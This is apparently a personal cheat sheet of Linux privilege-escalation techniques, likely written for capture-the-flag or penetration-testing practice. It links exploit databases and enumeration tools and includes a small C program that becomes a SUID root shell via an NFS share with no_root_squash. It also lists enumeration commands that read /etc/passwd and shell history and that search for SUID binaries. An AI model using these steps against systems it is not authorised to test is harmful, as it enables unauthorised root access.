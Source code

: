 
## Links

### Exploit DB
* https://nvd.nist.gov/
* https://www.exploit-db.com/
* https://www.rapid7.com/db/

### Lolbin 
* https://gtfobins.github.io/


## Enumeration tools
* LinPeas: https://github.com/carlospolop/* privilege-escalation-awesome-scripts-suite/tree/master/linPEAS
* LinEnum: https://github.com/rebootuser/LinEnum
* LES (Linux Exploit Suggester): https://github.com/mzet-/* linux-exploit-suggester
* Linux Smart Enumeration: https://github.com/diego-treitos/* linux-smart-enumeration
* Linux Priv Checker: https://github.com/linted/linuxprivchecker 

## Mount
If the “no_root_squash” option is present on a writable share, we can create an executable with SUID bit set and run it on the target system.

```
# cat foo.c
int main(){
  setuid(0);
  setgid(0);
  system("/bin/bash");
  return 0; 
}

# gcc foo.c -o foo

# chmod +x ./foo
# chmod +s ./foo
```


## Commands

```
hostname

uname -a

cat /proc/version

cat /etc/issue

ps

env

id

/etc/passwd

history

ifconfig

ip route

netstat -plunta

getcap -r / 2>/dev/null


bash -i  #force interactive shell

```

## Find

* ``find . -name flag1.txt``: find the file named “flag1.txt” in the current directory
* ``find /home -name flag1.txt``: find the file names “flag1.txt” in the /home directory
* ``find / -type d -name config``: find the directory named config under “/”
* ``find / -type f -perm 0777``: find files with the 777 permissions (files readable, writable, and executable by all users)
* ``find / -perm a=x``: find executable files
* ``find /home -user frank``: find all files for user “frank” under “/home”
* ``find / -mtime 10``: find files that were modified in the last 10 days
* ``find / -atime 10``: find files that were accessed in the last 10 day
* ``find / -cmin -60``: find files changed within the last hour (60 minutes)
* ``find / -amin -60``: find files accesses within the last hour (60 minutes)
* ``find / -size 50M``: find files with a 50 MB size

* ``find / -writable -type d 2>/dev/null`` : Find world-writeable folders
* ``find / -perm -222 -type d 2>/dev/null``: Find world-writeable folders
* ``find / -perm -o w -type d 2>/dev/null``: Find world-writeable folders
* ``find / -perm -o x -type d 2>/dev/null``:  Find world-executable folders
* ``find / -name perl*``
* ``find / -name python*``
* ``find / -name gcc*``
* ``find / -perm -u=s -type f 2>/dev/null`` Find files with the SUID bit, which allows us to run the file with a higher privilege level than the current user. 
* ```find / -type f -perm -04000 -ls 2>/dev/null``` will list files that have SUID or SGID bits set.

